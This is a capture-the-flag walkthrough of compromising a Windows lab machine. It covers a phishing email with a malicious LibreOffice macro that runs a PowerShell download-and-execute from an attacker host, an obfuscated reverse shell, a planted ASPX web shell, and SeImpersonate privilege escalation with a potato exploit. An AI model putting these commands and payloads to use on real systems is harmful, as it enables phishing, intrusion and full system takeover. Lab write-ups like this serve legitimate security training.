## NMAP Port Scan
A basic TCP port scan was done with NMAP to enumerate running services on the machine:
```bash
sudo nmap -sS -sV -A -p- 10.10.86.141 -oA nmap
```
The NMAP Output revealed that port 25,80,445 and 3389 were running:


## Discovery of an email address

In the previous NMAP scan, port 80 revealed that the http title was 'Job.local'. The address was subsequently added to the /etc/hosts file:
```bash
sudo nano /etc/hosts
```


Browsing to the HTTP server hosted, the index.html file revealed interesting information:

The webpage states an email address 'career@job.local' while hinting at a potential phishing attack vector using libre office.


## Creating a malicious ODT file
First, I opened libreoffice and pasted Lorem Ipsum in there so the document wasn't empty:


Browse to tools->macros->organize macro's->basic & create a new macro filename.odt->standard->new



The following code was embedded into the macro to download and execute the reverse shell: 
```bash
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.194/security.ps1')""")
End Sub
```

(NOTE: security.ps1 will be made in the next section).
It is important that the macro is immediately trigged, to achieve that we can add it to trigger when the document is opened tools->macros->organize macros->basic->select the created macro->assign->events->open document:


Save the file and we will be ready to move onto creating an obfuscated reverse shell.

## Creating an obfuscated reverse shell
To ensure there was no hiccups with antivirus or AMSI, I utilised [Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) which is an excellent tool for creating obfuscated powershell payloads. This was used to generate our payload to eventually be downloaded when the malicious ODT file will be opened:
```bash
git clone https://github.com/gh0x0st/Get-ReverseShell
pwsh
Get-ReverseShell -Ip 10.8.4.194 -Port 53 > security.ps1
```


## Catching a shell as jack.black
A python3 http.sever must be setup to recieve download requests (same folder as malicious document):
```bash
python3 -m http.server 80
```
Now an NC Listener can be setup on the port chosen for the reverse shell, in this instance it was port 53:
```bash
nc -lvnp 53
```

Finally, we can send our document to the discovered email address using 'sendemail':
```bash
sendemail -s "job.local" \
-f "ross@job.local" \
-t "career@job.local" \
-o tls=no \
-m "Hi, I've attached my CV to the email. Please open it immediately" \
-a me.odt    
```

A short while later, our reverse shell file was downloaded from the web server and the shell was triggered on the machine:


## Switching to IIS Apppool
Viewing inetpub/wwwroot and checking if it was writable to potentially move into IIS Apppool
```bash
Get-Acl "C:\inetpub\wwwroot" | Format-List
```

The output shows that it is writable and it contains a hello.aspx file.



[SharPyShell](https://github.com/antonioCoco/SharPyShell) is a repository containing a script that can generate and interact with an obfuscated aspx file, we can use this to generate a file that can be later interacted with:
```bash
python3 SharPyShell.py generate -p somepassword
```

Now we can upload the aspx file to the machine via powershell after starting another python3 web server on the attacker machine:
```bash
python3 -m http.server 80
```

```bash
(New-Object Net.WebClient).DownloadFile('http://10.8.4.194:80/shell.aspx','C:\inetpub\wwwroot\shell.aspx')
```


Following from the shell upload, we can interact with it via sharpyshell again to gain a HTTP interactive shell as IIS Apppool.
```bash
python3 SharPyShell.py interact -u http://job.local/shell.aspx -p somepassword
```


## Abusing windows privileges to admin
Viewing account privileges on the apppool showed that SeImpersonatePrivilege was available:
```bash
whoami /priv
```


From here gaining administrator privileges was relatively simple, we can use a potato exploit. In this instance I opted to use SigmaPotato https://github.com/tylerdotrar/SigmaPotato, to use this transfer it from the attacker machine to the host machine using sharpy's webshell.
```bash
#upload /opt/PrivEsc/Windows/Exploits/Potato/SigmaPotato.exe
```
Then execute sigmapotato connecting to your setup nc listener:
```bash
SigmaPotato.exe --revshell 10.8.4.194 443
```

We eventually receive a callback on the shell as NT authority\system.

PWNED!
